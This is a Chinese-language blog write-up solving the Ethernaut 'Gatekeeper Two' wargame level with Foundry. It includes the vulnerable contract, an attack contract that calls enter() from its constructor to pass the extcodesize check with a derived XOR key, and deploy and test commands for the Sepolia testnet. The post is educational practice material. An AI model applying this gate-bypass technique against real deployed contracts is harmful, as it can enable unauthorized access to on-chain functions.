



# Foundry 通关 Ethernaut（13）— **Gatekeeper Two**

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

通过修饰符的限制，成功调用函数更新用户

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. 一个地址类型状态变量 **entrant**，默认为 0x0
2. 函数修饰符：
   - gateOne：函数的当前调用者（msg.sender）与 原始调用者（tx.origin）不相等时执行函数
   - gateTwo：使用内联汇编的语法 函数的调用者地址上的 `bytecode` 为 0 时执行函数
   - gateThree:    `uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))` 异或 `uint64(_gateKey)` == `type(uint64).max)` 时执行函数

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## 思路

### gateOne

很经典的 `msg.sender` 与 `tx.origin` 不相等，在 **Telephone** 和 **GatekeeperOne** 两关中都给出过解法，构建一个攻击合约调用即可

### gateTwo

caller()

- caller() ：当前函数的直接调用者
- extcodesize（a） ：地址 a 的代码大小 （eoa账户没有代码，大小为 0）

这里一开始不知道怎么限制 既是合约调用函数，又是Eoa账户，后面搜索知道了还有一种情况，extcodesize（a）为0：

合约在被创建的时候，runtime `bytecode` 还没有被存储到合约地址上， `bytecode` 长度为0。也就是说，将逻辑写在合约的构造函数 `constructor` 中，可以绕过 `extcodesize（a）` 检查。

### gateThree

这里要做一个运算题

**前提：**

- type(uint64).max，8字节，16字符，64 bit，64位 1

- ^: 异或，相同为0，不同为1

- keccak256(abi.encodePacked(msg.sender))：bytes32

```solidity
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max
```

本来以为又涉及到类型转换时的截断算法，后面想起来，对于 异或 算法 ，a 异或 b = c， b = a 异或 c

结论：uint64(_gateKey) = type(uint64).max ^ uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))

## foundry 复现

### 链上交互

1. 攻击合约

   ```solidity
   contract Attack {
       GatekeeperTwo public gatekeeperTwo;
       bytes8 public _gateKey;
   
       constructor(address _address){
           gatekeeperTwo = GatekeeperTwo(_address);
           _gateKey =  bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
           // 构造函数中调用，此时 msg.sender 为此合约地址，bytecode 为 0
           gatekeeperTwo.enter(_gateKey);
       }
   }
   ```

   部署脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Script, console} from "forge-std/Script.sol";
   import {Attack} from "../src/GatekeeperTwo.sol";
   
   contract AttackScript is Script {
       Attack public attack;
   
       function setUp() public {}
   
       function run() public {
           vm.startBroadcast();
   
           attack = new Attack("关卡实例合约地址");
   
           vm.stopBroadcast();
       }
   }
   ```

2. 终端部署

   ```bash
   forge script script/GatekeeperTwo.s.sol --rpc-url $Sepolia_RPC_URL --broadcast --private-key $PRIVATE_KEY 
   ```

   

3. 查看合约数据

   ```bash
   cast call [关卡实例合约地址] "entrant()" --rpc-url $Sepolia_RPC_URL
   ```

   成功更新

   

### 测试

1. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.0;
   
   import {Test, console} from "forge-std/Test.sol";
   import {GatekeeperTwo,Attack} from "../src/GatekeeperTwo.sol";
   
   contract GatekeeperTwoTest is Test {
       GatekeeperTwo public gatekeeper;
       Attack public attackContract;
       address  public attacker = address(0x1234);
   
       function setUp() external {
           gatekeeper = new GatekeeperTwo();
           console.log("before",gatekeeper.entrant());
           // 切换到攻击者部署
           vm.prank(attacker);
           attackContract = new Attack(address(gatekeeper));
           // 部署后，构造函数中的调用完成则entrant改变
           console.log("after",gatekeeper.entrant());
   
       }
   }
   ```

2. 终端输入

   ```solidity
   forge test --match-path test/GatekeeperTwo.t.sol -vvvv
   ```



我们可以看到，部署攻击合约后，用户改变


